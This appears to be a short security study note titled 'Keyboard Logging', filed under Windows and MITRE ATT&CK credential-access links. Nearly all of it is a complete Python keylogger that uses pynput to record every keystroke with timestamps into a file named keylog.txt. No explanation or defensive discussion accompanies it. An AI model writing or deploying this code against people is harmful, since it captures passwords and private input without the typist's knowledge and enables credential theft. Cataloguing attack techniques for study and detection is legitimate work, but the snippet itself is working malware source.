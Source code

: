 ```yaml
---
title: Keyboard Logging
---
```


[[notes/windows/index]] [[notes/mitre-attack/credential-access]] 

~~~ python
from pynput.keyboard import Key, Listener
import logging

logging.basicConfig(filename=('keylog.txt'), level=logging.DEBUG, format='%(asctime)s - %(message)s')
with Listener(on_press=lambda k: logging.info(str(k))) as listener:
    listener.join()
~~~
